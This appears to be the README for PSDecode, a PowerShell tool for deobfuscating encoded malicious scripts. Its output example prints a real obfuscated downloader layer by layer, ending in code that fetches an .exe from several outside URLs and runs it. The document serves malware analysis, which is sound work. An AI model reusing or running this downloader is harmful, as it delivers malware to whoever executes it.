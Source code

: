 # PSDecode
This is a PowerShell script for deobfuscating other encoded PowerShell scripts. Often, malicious PowerShell scripts have several layers of encodings  (Replace, Base64Decode, etc...) that, once decoded, are executed via a call to Invoke-Expression (IEX, &, .), Invoke-Command, etc... This script employs a technique called method overriding that enables us to essentially intercept calls to functions that I have accounted for within this script and print out the arguments being passed to it (a.k.a what the script was trying to execute).

** Important Note #1: Only run this script within an isolated sandbox. If the encoded powershell attempts to execute a function which I have not accounted for, there is a chance it could execute**

** Important Note #2: The default execution policy for PowerShell is Restricted and if you dont use PowerShell a lot, chances are when you go to run this script, it will give you an error stating "PSDecode cannot be loaded because the execution of scripts is disabled on this system". If you receive this message, you'll need to change you execution policy to Unrestricted either temporarility or permanantly. The simplest way is to open a PowerShell command prompt as Administrator and run: set-executionpolicy unrestricted**

# To Use
1. Copy PSDecode.psm1 into $PSHome\Modules\
2. Open a new instance of PowerShell
3. Option #1 [Pass encoded PowerShell via File]:
<pre> > PSDecode .\encoded_ps.ps1 </pre>
4. Option #2 [Pass encoded PowerShell via PIPE]:
<pre> > Get-Content .\encoded_ps.ps1 | PSDecode </pre>

# Output Example
```PowerShell
############################## Layer 1 ##############################
&( $vERBOSEprefeRENCE.TOstRInG()[1,3]+'x'-jOiN'')(('. ((VAriAble rAb*m'+'DR*rAb)'+'.namE[3,11,'+'2]-joiNrAbrAb) ( (rAb ((8mrAb+rAb6o4Vfranc r'+'Ab+rAb8m6+8m6=rAb+rAb new-8m6'+'+8m6obj8m6+8m6ec
rAb+rAbt SysrAb+rAbt8m6+8m6em.Ne'+'t'+'.We8m6rAb+rAb+8m6bCli8m6+8m6enrAb+rAbt8rAb+rAbm6+8m6;8m6+8m6o4Vnsa8m6+8m6dasd 8m6+'+'8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'rAb+rAb8mrAb+rAb6random;
o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6'+'-8m6+8m6soft.pl/w8m6+8m6ef3rAb+rAb8m6+8m64668m6+8m6'+'48m6+8rAb+rAbm658m6+8m6,htt8m6+8mrAb+rAb6p8m6+8m6:rAb+rAb8m6+8
m6/'+'8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/wrAb+rAb8m6'+'+8m6efrAb+rAb348m6+8m666458m'+'6+8m6,htt8m6+8mrAb+rAb6prAb+rAb://8m6+'+'8m6truhlarstvi-be8m6+8m6'+'zd8m6+8m'+'6eka8m6+
8rAb+rA'+'bm6.c8m6+8rAb+rAbm6z/wef346645,h8m6+8m6ttrAb+rAb8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8mrAb+rAb6+8m6lit(H8m6+8m6a6,H8rAb+rAbm6+8m6a6'+')8m6
+8rAb+r'+'Abm6;8m6+8m6o4V8m6+8m6kara8m6+8m6pas = o8m6+8m64'+'Vns8m6+8m6adasd.next(18m6+8m6,rAb+rA'+'b 38m6+8m6rAb+rAb43248m6+8m658m6+8mrAb+rAb6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6rAb+r
Ab+8m6 Ha61U8m6+8m6nH'+'8m6'+'+8m6a6 +rAb+rAb o48m6+8m6Vkar'+'8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha'+'8m6+8m668m6+8m6;8m6rAb+rAb+8m6for8m6+8m6ea'+'c8m6+8m6h(o8m6+8m64VrAb+rAbab8m6+8m6c 
in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){'+'8m6+8m6try{o48m6+8m6'+'V8m6+8m6f8m6+8m6r8m6'+'+8m6a8m6+8m6n8m'+'6r'+'Ab+rAb+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8rAb+rAbm6c8m6+8m6.TrAb+rAboSt8m6+8m6r8m
6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+'+'8m6br8m6+8m6eak;}catch8m6'+'+8m6{wrrAb'+'+rAb8m6+'+'8m6i8m6+8m6te8m6+8m6-host'+' rAb+rAbo48rAb+rAbm6'+'+8m6V
_.Ex8m6+8m6c'+'e8m6+8m6pt8'+'m6+8rAb+rAbm6ion8m6'+'+8m6.MrAb+rAb8m6+8m6es8m6+8mrAb+rAb6rAb+'+'rAbsa8m6+8m6g8m6+8m'+'6e;}}8'+'m6'+')-CREpLACE 8m61Un8m6'+','+'[chaR]92 -CrA'+'b'+'+rAbREprAb+rAbL
ACE([chaR]111+[chaR]52+[chaR]86)'+',[cha'+'R]36 -CR'+'EpLACE ([chrAb+rAbaR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe rAb+rAb8m6*MDR*8m6).Name[3,11,2]'+'-JoIn8m68m6)rAb).rEpLA'+'Ce(([
'+'c'+'har]5'+'6+[char]109+[c'+'har]54),[StRiNG][char]39).rE'+'pLAC'+'e(rAbf5BrAb,[StRiNG][char]124) ) ').rEPLAcE('rAb',[StRING][ChAr]39) )


############################## Layer 2 ##############################
. ((VAriAble '*mDR*').namE[3,11,2]-joiN'') ( (' ((8m'+'6o4Vfranc '+'8m6+8m6='+' new-8m6+8m6obj8m6+8m6ec'+'t Sys'+'t8m6+8m6em.Net.We8m6'+'+8m6bCli8m6+8m6en'+'t8'+'m6+8m6;8m6+8m6o4Vnsa8m6+8m6das
d 8m6+8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'8m'+'6random;o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6-8m6+8m6soft.pl/w8m6+8m6ef3'+'8m6+8m64668m6+8m648m6+8'+'
m658m6+8m6,htt8m6+8m'+'6p8m6+8m6:'+'8m6+8m6/8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/w'+'8m6+8m6ef'+'348m6+8m666458m6+8m6,htt8m6+8m'+'6p'+'://8m6+8m6truhlarstvi-be8m6+8m6zd8m6+8m6
eka8m6+8'+'m6.c8m6+8'+'m6z/wef346645,h8m6+8m6tt'+'8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8m'+'6+8m6lit(H8m6+8m6a6,H8'+'m6+8m6a6)8m6+8'+'m6;8m6+8m6o4V8
m6+8m6kara8m6+8m6pas = o8m6+8m64Vns8m6+8m6adasd.next(18m6+8m6,'+' 38m6+8m6'+'43248m6+8m658m6+8m'+'6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6'+'+8m6 Ha61U8m6+8m6nH8m6+8m6a6 +'+' o48m6+8m6Vka
r8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha8m6+8m668m6+8m6;8m6'+'+8m6for8m6+8m6eac8m6+8m6h(o8m6+8m64V'+'ab8m6+8m6c in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){8m6+8m6try{o48m6+8m6V8m6+8m6f8m6+8m6
r8m6+8m6a8m6+8m6n8m6'+'+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8'+'m6c8m6+8m6.T'+'oSt8m6+8m6r8m6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+8m6br8m6+8m6eak;}catc
h8m6+8m6{wr'+'8m6+8m6i8m6+8m6te8m6+8m6-host '+'o48'+'m6+8m6V_.Ex8m6+8m6ce8m6+8m6pt8m6+8'+'m6ion8m6+8m6.M'+'8m6+8m6es8m6+8m'+'6'+'sa8m6+8m6g8m6+8m6e;}}8m6)-CREpLACE 8m61Un8m6,[chaR]92 -C'+'REp'
+'LACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([ch'+'aR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe '+'8m6*MDR*8m6).Name[3,11,2]-JoIn8m68m6)').rEpLACe(([char]56+[char]109+[cha
r]54),[StRiNG][char]39).rEpLACe('f5B',[StRiNG][char]124) ) 


############################## Layer 3 ##############################
 (('o4Vfranc '+'= new-'+'obj'+'ect Syst'+'em.Net.We'+'bCli'+'ent'+';'+'o4Vnsa'+'dasd '+'= n'+'e'+'w-'+'object '+'random;o4Vb'+'c'+'d = Ha6ht'+'t'+'p:'+'//s'+'mart'+'-'+'soft.pl/w'+'ef3'+'466'+
'4'+'5'+',htt'+'p'+':'+'/'+'/chimach'+'i'+'n'+'eno'+'w.com/w'+'ef34'+'6645'+',htt'+'p://'+'truhlarstvi-be'+'zd'+'eka'+'.c'+'z/wef346645,h'+'tt'+'p'+'://'+'er'+'icajoy.co'+'m/'+'wef346'+'645Ha6
.Sp'+'lit(H'+'a6,H'+'a6)'+';'+'o4V'+'kara'+'pas = o'+'4Vns'+'adasd.next(1'+', 3'+'4324'+'5'+');o4Vhuas = o4Ve'+'nv:p'+'ublic +'+' Ha61U'+'nH'+'a6 + o4'+'Vkar'+'apas '+'+ Ha6.e'+'xe'+'Ha'+'6'+'
;'+'for'+'eac'+'h(o'+'4Vab'+'c in '+'o4'+'Vb'+'c'+'d){'+'try{o4'+'V'+'f'+'r'+'a'+'n'+'c.Downlo'+'adFile(o4Vab'+'c'+'.ToSt'+'r'+'in'+'g('+')'+', o4'+'Vhua'+'s);Invoke-Item(o4Vhuas);'+'br'+'eak;
}catch'+'{wr'+'i'+'te'+'-host o4'+'V_.Ex'+'ce'+'pt'+'ion'+'.M'+'es'+'sa'+'g'+'e;}}')-CREpLACE '1Un',[chaR]92 -CREpLACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([chaR]72+[chaR]97+[chaR]
54),[chaR]39) | &((GeT-VaRIAbLe '*MDR*').Name[3,11,2]-JoIn'')


############################## Layer 4 ##############################
$franc = new-object System.Net.WebClient;$nsadasd = new-object random;$bcd = 'http://smart-soft.pl/wef346645,http://chimachinenow.com/wef346645,http://truhlarstvi-bezdeka.cz/wef346645,http://e
ricajoy.com/wef346645'.Split(',');$karapas = $nsadasd.next(1, 343245);$huas = $env:public + '\' + $karapas + '.exe';foreach($abc in $bcd){try{$franc.DownloadFile($abc.ToString(), $huas);Invoke
-Item($huas);break;}catch{write-host $_.Exception.Message;}}


############################## Actions ##############################
1. [System.Random] Generate random integer between 1 and 343245 . Value returned: 92672
2. [System.Net.WebClient.DownloadFile] Download from: http://smart-soft.pl/wef346645
3. [System.Net.WebClient.DownloadFile] Save downloaded file to: C:\Users\Public\92672.exe
4. [Invoke-Item] Execute/Open: C:\Users\Public\92672.exe
```
